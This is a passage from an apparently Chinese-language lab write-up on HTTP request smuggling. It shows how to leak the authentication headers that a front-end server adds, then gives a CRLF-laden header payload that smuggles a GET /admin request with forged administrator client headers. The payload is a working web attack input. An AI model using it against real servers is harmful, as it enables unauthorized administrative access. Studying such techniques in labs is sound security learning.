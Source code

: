 [![](assets/1705287960-76ffba4d44d3c5f8e4a6e3f06f6928a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104952-1800ff70-b02c-1.png)  
在请求的 Body 中将任意字符附加到原始搜索参数，直到请求长度超过走私的 Content-Length 头，发送请求就可以看到响应中出现了前端服务器附加到我们请求的标头信息

```plain
Content-Length: 840
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2244638774928226
```

[![](assets/1705287960-eb67bdb4b735f702edad26c9961b95f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105012-23d74c00-b02c-1.png)  
随后将请求方法改为 HEAD 并更改头部信息，在其中插入请求路径这样它就可以走私对 admin 面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```plain
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n

#Value
xyz
```
